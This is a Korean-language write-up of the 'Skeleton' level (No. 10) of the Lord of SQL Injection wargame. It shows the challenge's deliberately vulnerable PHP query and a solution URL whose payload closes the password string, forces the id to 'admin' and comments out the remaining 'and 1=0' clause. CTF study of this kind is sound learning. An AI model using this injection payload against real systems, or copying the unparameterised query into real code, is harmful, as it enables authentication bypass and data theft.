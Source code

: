 # Lord of SQL Injection No.10 Skeleton

Skeleton 문제는 문제 풀이에 방해되는 조건절을 무력화시켜 원하는 `id`값을 입력하도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

```php
$query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0";
```

`$_GET` 방식으로 `pw`를 입력받은 후에 `and 1=0`으로 query를 항상 False로 만든다.
즉, 문제를 풀기 위해서는 `and 1=0`과 같이 문제 풀이에 필요하지 않은 조건절을 무력화 해야한다.

#### 문제 풀이 조건

```php
if($result['id'] == 'admin') solve("skeleton");
```

query문의 id값은 `guest`지만 `id`값을 `admin`으로 바꾸어주면 문제풀이에 성공하게 된다.

## Solution

```
http://los.eagle-jump.org/skeleton_***.php?pw=%27%20or%20id=%27admin%27%20--%20;
```

`pw`문을 `'`로 닫아준 후 `or id='admin'`으로 `id`값을 문제 풀이 조건에 맞게 `admin`으로 지정하준다.
후에 나오는 `pw` 입력문과 `and 1=0` 조건절은 문제를 푸는 데에 걸림돌만 되기 때문에 `--` 주석처리로 무력화시킨다.
문제 풀이에 필요한 `id`값을 맞추어 주고 필요하지 않은 조건절을 무력화시키면 문제 풀이에 성공하게 된다.